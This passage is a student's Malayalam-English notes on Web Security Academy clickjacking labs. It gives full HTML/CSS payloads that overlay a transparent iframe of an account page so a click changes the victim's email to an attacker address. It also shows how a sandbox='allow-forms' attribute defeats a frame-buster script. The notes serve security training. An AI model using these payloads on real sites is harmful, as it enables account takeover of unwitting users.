         z-index: 2;
    }
    div {
        position:absolute;
        top:450px;
        left:80px;
        z-index: 1;
    }
</style>
<div>click me</div>
<iframe src="https://0ae900f604169aafc01a50a900b000ce.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>

-->ivide src kk value kodukumbol nala pole nokanam error veran sadhyatha und correct aayi thane path kodukanam.athyath ivide /POST aayirunapol /my-account in shesham /change-email enna path undayirunu so ath remove chythitan ?email=hacke.... enn kodukendath enale request pokumbol email input il ee hacker...@gamil.com varu ok

==============================================================

          Lab-3(Clickjacking with a frame buster script)
-->ith sambavam nerthepole email change chyuna athe exploit thane aan.ivide ulla vythasam enthenal namuk veruthe clickjacking chyan patila.karanam browser frame busting technique use chyth framing prevent chyunun
-->so athinulla oru pariharaman  the HTML5 iframe `sandbox` attribute.so iframe tag il namuk ee attribute itt value aayi :allow-forms" enn koduthal mathi
-->so nerthe pole /POST request il poi change request maati /GET aaki change-email/enna path remove chyth ?email=hack.... koduth send chyumbol aakunund
-->so ini script aakam:
      <style>
    iframe {
          position:relative;
        width:500px;
        height: 500px;
        opacity: 0.5;
        z-index: 2;
    }
    div {
        position:absolute;
        top:450px;
        left:80px;
        z-index: 1;
    }
</style>
<div>click me</div>
<iframe sandbox="allow-forms"                             -----1) 
src="https://0a6a001d0398cd3bc0d01dcd00bb0082.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>

-->ivide 1) il noku athan sandbox attribute so aa allow-forms enna value koduthal namuk frame busting prevention technique bypass chyan patum

==============================================================
